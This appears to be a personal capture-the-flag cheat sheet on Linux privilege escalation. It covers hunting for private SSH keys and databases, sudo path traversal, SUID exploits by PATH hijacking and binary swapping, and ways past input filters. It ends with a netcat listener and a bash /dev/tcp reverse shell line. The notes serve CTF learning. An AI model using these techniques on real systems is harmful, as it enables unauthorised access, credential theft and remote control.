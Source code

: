 [BACK](../README.md)
# Linux

Move from ssh to main computer:
```bash
scp -P [PORT] user@host:path /mnt/c/Users/...
```

```bash
sudo -l #list actions that you can do
sudo -u [user] #impersonate user
```

If you are allowed to do a command on a path ending with /*, you can execute it anywhere
## ELF files:
- Get info about an elf file: `readelf [file]`
- [Diagram of an elf file structure](img/ELF_Executable_and_Linkable_Format_diagram_by_Ange_Albertini.png) 
## Unix bins that can bypass security stuff
https://gtfobins.github.io/

checksec:
Shows the security information on a file.
useful for pwn challenges 

## Useful to search:
- .php files
- .html/.js/.css
- .db files
- ./ssh
    - id_rsa <- private key
- ./etc ./www
- .config files
- .log files
- grep -r "tofind" 2>/dev/null 
  - search in all the files in a folder
- find / -readable -and -user [user] 2>/dev/null | grep -v 'proc' | grep -v 'sys'
### ex:
    
    User x may run the following commands on host_machine:
    /bin/cat /x/public/* 
                       
    this means you can do something like: cat /x/public/../../user2/flag.txt

## SUID exploits

If file permission has: -##s##### (s instead of x for root permission) -> <strong>SUID</strong>

### 1. Change PATH variable
#### Example:
```bash
ls flag.txt
```
#### Exploit by:
```bash
cp /bin/cat /tmp/ls #if there are arguments after the ls, try using nano instead
export PATH=/tmp 
```
### 2. Pass a symlink to a file
### File descriptors:
    STDIN = 0
    STDOUT = 1
    STDERR = 2
    
### 3. If a program is used in the suid execution, you can switch it for another
```bash
#ex: program calls /bin/bash -c "md5sum flag.txt"
which md5sum
# "/usr/bin/md5sum" <- We have the perms to modify it
cp /usr/bin/cat /usr/bin/md5sum #<- replaced md5sum with cat
./program #<- program will call /usr/bin/cat instead of /usr/bin/md5sum
```
### Cat file without putting spaces:
`cat</path/to/file`
### Bypass space:
 ${IFS} == space
### Pass commands as input
If eval is used:
- Pass command in between ``
  
### Bypass &>/dev/null
- eval $(command) 2>&0
  - execute the command
  - tries to execute the result
  - fails unless the result is a command
  - prints to stderr the result of the command
  - redirects stderr to stdin

### Bypass characters
- use ? for one or 2 unknown chars in paths
- {startchar..endchar}\ can be used to loop through the characters in the interval
  - ex: b and s are not allowed in the input, trying to launch bash:
    - eval {a..c}a{r..t}h\;
  
## Conditionals:

- -eq -> compare numbers
- [  ] -> equivalent to test
- -z -> empty string
- -n -> not empty string
- -e -> file exists
- -f -> file exists and is a regular file
- -d -> file exists and is a directory
- -r -> file is readable
- -w -> file is writable
- -x -> file is executable
- -o -> or
- -a -> and
- -gt -> greater than
- -lt -> less than
- -ge -> greater or equal
- -le -> less or equal
- -ne -> not equal

### Unquoted expression injection
if we use test or [   ] with an argument that is not quoted, we can inject conditinals
```bash
[ $VAR -eq $1 ] #we can pass something like 1 -o 1 -eq 1 to return true
```

### Useful commands:
- `echo -n` -> no newline
- `cut -d [delimiter] -f [index]` -> cut by delimiter and get input at index (Starts at 1)
- `cut -c [start]-[end]` -> cut by character
- `tr -d [char]` -> delete all instance of [char]
- `tr -s [char_array] [char]` -> replace all char in [char_array] with [char]
- `xxd -r -p` -> convert hex to ascii

## SSH

Check /etc/ssh/ssh_config for the ssh config
- ForceCommand:
  - Runs a command when a user connects 
  

## Reverse shell:
- Listener(on my machine): `nc -nvlp [PORT]`
- Senders:
  - Bash: `bash  -i >& /dev/tcp/[IP]/[PORT] 0>&1 `